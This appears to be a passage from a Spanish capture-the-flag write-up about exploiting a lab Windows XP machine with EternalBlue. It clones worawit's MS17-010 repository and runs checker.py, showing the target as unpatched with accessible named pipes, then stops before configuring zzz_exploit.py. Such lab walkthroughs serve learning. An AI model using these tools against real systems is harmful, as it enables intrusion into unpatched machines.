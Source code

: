 Si recordamos un poco la **máquina Blue**, estariamos haciendo lo mismo que hicimos aquella vez al momento de utilizar el Exploit del **EternalBlue**, por lo que vamos a repetir el mismo proceso, pero vamos a utilizar la versión de **GitHub**, ya que es un poco más estable esa versión, al ser ideada para usarse en cualquier versión de **Windows**, pues parece ser que esta máquina usa un **Windows XP**. lo cual nos puede traer problemas con las versiones de este Exploit que ocupemos.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="Exploit2">Configurando y Usando Exploit eternalBlue de GitHub</h2>

<br>

<h3 id="Descarga">Descargando Exploit e Investigando las Named Pipes</h3>

Vamonos por pasos:
* Descargamos el **GitHub**: <a href="https://github.com/worawit/MS17-010" target="_blank">Repositorio de worawit: MS17-010</a>
```bash
git clone https://github.com/worawit/MS17-010       
Clonando en 'MS17-010'...
remote: Enumerating objects: 183, done.
remote: Total 183 (delta 0), reused 0 (delta 0), pack-reused 183
Recibiendo objetos: 100% (183/183), 113.61 KiB | 908.00 KiB/s, listo.
Resolviendo deltas: 100% (102/102), listo.
```

* Entramos al directorio:
```bash
ls
BUG.txt                  eternalblue_poc.py       eternalromance_leak.py  eternalsynergy_poc.py  README.md
checker.py               eternalchampion_leak.py  eternalromance_poc2.py  infoleak_uninit.py     shellcode
eternalblue_exploit7.py  eternalchampion_poc2.py  eternalromance_poc.py   mysmb.py               zzz_exploit.py
eternalblue_exploit8.py  eternalchampion_poc.py   eternalsynergy_leak.py  npp_control.p
```

* Recuerda que hay 2 scripts que vamos a usar:
  * checker.py
  * zzz_exploit.py

El **checker.py** va a buscar un acceso a los **named pipes** y el **zzz_exploit.py** es el EternalBlue, configurado para que sirve en **servicios Windows del 2000 para arriba**. 

* Ahora vamos a usar primero el **checker.py**. **OJO**: Recuerda que para usar el **checker.py**, hay que usar **Python2**:
```bash
python2 checker.py 10.10.10.4
Target OS: Windows 5.1
The target is not patched
.
=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```
Ya vimos 2 **named pipes** con **OK**, lo que quiere decir que pueden ser vulnerables y son los que el **zzz_exploit.py**, usara para ganar acceso a la máquina. Es momento de configurar el Exploit.
